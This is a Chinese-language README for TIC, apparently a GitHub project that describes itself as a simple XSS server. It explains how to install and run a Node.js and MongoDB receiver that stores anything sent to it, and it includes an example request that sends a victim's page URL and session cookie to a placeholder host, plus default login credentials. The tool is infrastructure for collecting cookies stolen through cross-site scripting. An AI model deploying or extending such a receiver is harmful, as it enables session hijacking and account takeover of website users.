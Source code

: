 # TIC

TIC,一个简单的XSS服务端. 0x_Jin
  
#### 所需依赖

1. iojs or node.js
2. mongodb

#### 操作流程

1.安装mongodb后需要最好开启mongodb的ip绑定,绑定到127.0.0.1  
2.安装完后启动mongodb 使用mongo命令来管理mongodb. 添加数据库账户.   
```
use TIC  
db.addUser('TIC','ThisIsPass')  
如果你不想使用这个账号密码,可以更改为其他的.但是请同时修改TIC.js中的这段代码.  
mongoose.connect('mongodb://TIC:ThisIsTIC@localhost/TIC');
```
  
  
3.进入TIC目录,启动TIC.js (iojs TIC.js) , 程序会运行在本地的8080端口
```
如果需要修改端口,可以找到下面这段代码,把8080修改成你想要变更的端口.  
http.createServer(server).listen(8080);
```
  
  
4.本程序提供了结果查看页,路径为: /view , 为了安全性加上了基础认证. 默认基础认证 username:0x_Jin , password:wooyun
```
你可以在TIC.js中找到下面这段代码修改为你想要变更的账号密码.
if (!credentials || credentials.name !== '0x_Jin' || credentials.pass !== 'wooyun')
```
  
  
5.如果你想自己写一个结果查看页,你可以直接从 /receiver 来获得数据  
6.关于结果如何插入,除了.js .css 以及/view /receiver这些路径外的参数都会接受并存入数据库
```
example:http://xxxx:8080/?url=baidu.com&cookie=PHPSESSION%3Dxxxxxxx&ip=127.0.0.1  
除了GET外,POST也可以.
```
  
  
7.结果分为两大部分,第一部分为header,第二部分为request
```
header中存储的内容是程序获得到的请求者的数据,user-agent referer 源IP  
request中存储的内容为请求过来的数据 比如页面地址,cookie,ip等.  
  
example:  
 {
        "header":{
            "useragent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/46.0.2478.0 Safari/537.36",
            "referer":"http://zone.wooyun.org/",
            "srcip":"::1"
        },
        "time":"2015/8/13 13:13:40",
        "request":{
            "url":"www.xss1.com",
            "referer":"www.wooyun.org"
        }
    }
```

  
